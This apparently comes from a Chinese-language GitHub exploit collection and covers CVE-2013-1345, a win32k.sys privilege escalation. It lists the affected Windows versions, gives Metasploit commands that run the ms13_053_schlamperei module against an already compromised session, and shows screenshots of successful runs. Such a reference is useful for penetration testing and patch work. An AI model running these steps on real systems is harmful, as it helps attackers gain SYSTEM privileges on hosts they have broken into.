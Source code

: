 ### CVE-2013-1345

#### 描述

内核模式驱动程序中的win32k.sys不会 正确处理内存中的对象，这允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         | SP1    | :heavy_check_mark: |
| Windows 8           |                  |         |        |                    |
| Windows Rt          |                  |         |        |                    |
| Windows Server 2003 |                  |         | SP2    |                    |
| Windows Server 2008 |                  |         | SP2    | :heavy_check_mark: |
| Windows Server 2008 |                  | R2      | SP1    | :heavy_check_mark: |
| Windows Server 2012 |                  |         |        |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

> X86利用

测试系统Windows 7 SP1 x86 ，直接使用msf即可，我们当机器已经上线了

```
use exploit/windows/local/ms13_053_schlamperei
set SESSION 2 #你上线机器的session
run
```

![image-20200822151416515](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win7_x86.png?raw=true)

Windows Sever 2003 SP2 x86 和Windows Sever 2003 R2 SP2 x86都测试成功，但是利用文件没有源码只有exe可执行文件

Windows Sever 2003 SP2 x86 动图如下

![17](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86.gif?raw=true)

Windows Sever 2003 R2 SP2 x86 动图如下

![18](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2013-1345_win2003_x86_2.gif?raw=true)


